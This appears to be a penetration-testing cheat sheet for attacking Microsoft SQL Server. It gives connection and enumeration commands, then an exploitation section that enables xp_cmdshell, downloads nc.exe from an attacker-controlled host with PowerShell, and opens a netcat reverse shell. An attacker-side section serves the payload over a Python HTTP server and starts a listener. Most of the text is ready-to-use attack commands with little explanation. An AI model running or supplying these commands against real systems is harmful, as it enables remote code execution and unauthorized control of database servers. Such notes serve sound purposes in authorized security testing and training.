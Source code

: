 #database 
## Info
- **Type:** Relational Database Management System (RDBMS)
- **Common Usage:** Enterprise applications, web applications, Windows-based infrastructure
- **Security Note:** MSSQL servers may be vulnerable to **default credentials, weak authentication, XP_CMDSHELL abuse, and privilege escalation attacks**.

## Basic Commands

```bash
# Connect using authentication
mssqlclient.py $USER@$IP -windows-auth

# Connect using SQL authentication
mssqlclient.py $USER:$PASSWORD@$IP
```

```sql
# List databases
SELECT name FROM master.dbo.sysdatabases;

# Select a database
USE $DATABASE;

# List tables in the current database
SELECT * FROM information_schema.tables;

# List all users
SELECT name FROM master.sys.syslogins;

# Get current user
SELECT SYSTEM_USER;

# Checking Permissions
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## Exploitation

```sql
-- Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;  -- Allow advanced options
RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;  -- Enable xp_cmdshell
RECONFIGURE;

-- Test xp_cmdshell
xp_cmdshell "whoami";  -- Check current user
xp_cmdshell "powershell -c pwd";  -- Get current directory

-- Download nc.exe and save to Downloads
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://$HOST/nc.exe -outfile nc.exe";

-- Start reverse shell with nc.exe
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe $HOST $PORT";
```

### Attacker Machine
```bash
# Host a file using Python HTTP server
sudo python3 -m http.server 80
```

```bash
# Start a Netcat listener to receive a shell
sudo nc -lnvp $PORT
```